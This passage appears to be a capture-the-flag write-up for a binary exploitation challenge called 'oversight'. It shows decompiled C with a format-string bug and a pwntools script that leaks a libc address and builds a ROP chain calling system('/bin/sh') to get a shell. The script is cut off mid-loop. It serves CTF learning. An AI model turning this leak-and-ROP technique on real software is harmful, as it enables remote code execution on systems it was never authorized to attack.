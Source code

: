```
__pid_t wait(void *__stat_loc)
{
  __pid_t _Var1;
  ulong uVar2;
  char local_8d [5];
  char local_88 [120];
  
  puts("Press enter to continue");
  getc(stdin);
  printf("Pick a number: ");
  fgets(local_8d,5,stdin);
  uVar2 = strtol(local_8d,(char **)0x0,10);
  snprintf(local_88,100,"Your magic number is: %%%d$llx\n",uVar2 & 0xffffffff);
  printf(local_88);
  _Var1 = introduce();
  return _Var1;
}
```

There's a format-string bug at `printf(local_88);`.  Parameter `27` has a leak to `__libc_start_main`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./oversight')

while True:
    if args.REMOTE:
        p = remote('pwn-2021.duc.tf', 31909)
        libc = ELF('./libc-2.27.so')
        libc_start_main_offset = 231
    else:
        p = process(binary.path)
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        libc_start_main_offset = 243

    try:
        p.sendline()
        p.sendlineafter(b'number: ',b'27')
        p.recvuntil(b'Your magic number is: ')
        libc.address = int(p.recvline().strip().decode(),16) - libc.sym.__libc_start_main - libc_start_main_offset
        log.info('libc.address: ' + hex(libc.address))

        pop_rdi = next(libc.search(asm('pop rdi; ret')))

        payload  = b''
        payload += ((256 - 32) // 8) * p64(pop_rdi+1) # ret sled
        payload += p64(pop_rdi)
        payload += p64(libc.search(b"/bin/sh").__next__())
        payload += p64(libc.sym.system)
        payload += (256 - len(payload)) * b'B'

        p.sendlineafter(b'(max 256)?',b'256')
        p.send(payload)
        p.recvuntil(p64(pop_rdi+1)[:6],timeout=0.5)
        p.sendline(b'echo shell')
        if b'shell' in p.recvline(timeout=1):
```
